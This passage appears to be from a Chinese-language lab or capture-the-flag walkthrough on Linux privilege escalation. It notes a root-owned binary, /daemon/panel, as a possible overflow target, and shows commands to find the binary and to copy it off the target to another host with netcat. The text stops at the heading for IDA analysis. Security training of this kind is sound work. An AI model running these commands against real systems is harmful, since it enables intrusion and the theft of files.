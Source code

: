 [![](assets/1703831476-6c6711b7b1b600b50037ac7d62f01cae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224632-ba193172-a4c6-1.png)

> 拿到 demon 用户权限

### 提权信息收集

进程中发现了 root 权限运行的/daemon/panel。既然是 root 身份运行，如果存在溢出即可利用获得 root 的 shell

```bash
ps aux | grep root
find / -name 'panel' 2>/dev/null
```

[![](assets/1703831476-2a0ae205532bd9e1aa6682e73bf49212.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224640-be73b3fa-a4c6-1.png)

nc 传到本地分析

```bash
nc -lvp 8080 >panel
nc 192.168.80.129 8080 <panel
```

### ELF 文件分析（IDA64）
